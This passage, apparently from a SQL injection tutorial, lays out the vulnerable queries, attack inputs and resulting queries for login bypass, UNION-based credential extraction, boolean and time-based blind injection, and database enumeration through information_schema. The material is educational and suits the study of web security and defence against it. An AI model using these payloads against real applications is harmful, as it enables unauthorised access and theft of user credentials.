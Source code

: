 **Resulting Query:**

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'
```

The `--` comments out the password check, allowing login without a valid password.

### 2. Union-based Data Extraction

**Vulnerable Code:**

```sql
SELECT name, description FROM products WHERE id = $id
```

**Attack:**

```text
id = 1 UNION SELECT username, password FROM users --
```

**Resulting Query:**

```sql
SELECT name, description FROM products WHERE id = 1 UNION SELECT username, password FROM users --
```

### 3. Boolean-based Blind Injection

**Attack:**

```text
id = 1 AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'
```

The application's response indicates whether the first character of the username is 'a'.

### 4. Time-based Blind Injection

**Attack:**

```text
id = 1; IF (1=1) WAITFOR DELAY '00:00:05' --
```

If the condition is true, the response is delayed by 5 seconds.

## Real-world Attack Scenarios

### 1. Information Gathering

```sql
-- Get database version
1' UNION SELECT @@version --

-- List all tables
1' UNION SELECT table_name FROM information_schema.tables --

-- List columns in a specific table
1' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
```
